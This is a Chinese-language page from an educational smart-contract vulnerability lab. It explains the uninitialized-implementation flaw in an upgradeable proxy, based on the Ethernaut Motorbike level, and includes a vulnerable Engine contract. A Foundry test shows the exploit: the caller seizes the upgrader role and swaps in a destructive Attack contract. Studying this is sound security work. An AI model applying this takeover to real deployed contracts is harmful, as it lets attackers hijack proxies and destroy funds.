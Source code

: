 # 未初始化的状态变量  
[Uninitialized_variables.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Uninitialized_variables.sol)  
**名称：** 未初始化的变量漏洞  
**描述：**   
未初始化的本地存储变量可能包含合约中其他存储变量的值;  
这一事实可能会导致无意的漏洞，或被故意利用。  


**参考：**   
https://blog.dixitaditya.com/ethernaut-level-25-motorbike  


**合约：**  
```
contract Engine is Initializable {
    //“eip1967.proxy.implementation”的keccak-256哈希值减1
    bytes32 internal constant _IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    //将代理的实现升级为 `newImplementation`
    // 随后执行函数调用
    function upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }
```  

**如何测试：**  
forge test --contracts src/test/Uninitialized_variables.sol -vvvv  
```
// 用于测试合约未初始化漏洞的函数。
function testUninitialized() public {
    // 创建了一个新的Engine和Motorbike合约实例
    // EngineContract的地址被传递给MotorbikeContract的构造函数
    EngineContract = new Engine();
    MotorbikeContract = new Motorbike(address(EngineContract));

    // 创建Attack合约的新实例
    AttackContract = new Attack();

    // 打印EngineContract的upgrader。由于EngineContract 尚未初始化，upgrader可能是零地址
    console.log("Uninitialized Upgrader:", EngineContract.upgrader());

    // 调用EngineContract的‘initialize()’函数
    // 由于EngineContract没有初始化，所以谁都可以调用这个函数成为“升级者”
    address(EngineContract).call(abi.encodeWithSignature("initialize()"));

    // 打印EngineContract的upgrader。现在，它将是调用“initialize()”的地址
    console.log("Initialized Upgrader:", EngineContract.upgrader());

    // 将代理（EngineContract）的实现升级为恶意合约（AttackContract）并调用‘attack()’
    bytes memory initEncoded = abi.encodeWithSignature("attack()");
    address(EngineContract).call(
        abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(AttackContract),
            initEncoded
        )
    );

    // 打印“漏洞攻击完成”
    console.log("Exploit completed");

    //由于EngineContract被‘attack()’破坏，因此下一次调用将失败。
    console.log("Since EngineContract destroyed, next call will fail.");
    address(EngineContract).call(
        abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(AttackContract),
            initEncoded
        )
    );
}
``` 
**红框：** 通过初始化改变逻辑契约  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F75026e7d-93b6-4bd0-a860-aa12ac7f73ba%2FUntitled.png?table=block&id=111b15dd-4e6d-4a9d-85fc-b4a6a1397d0b&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
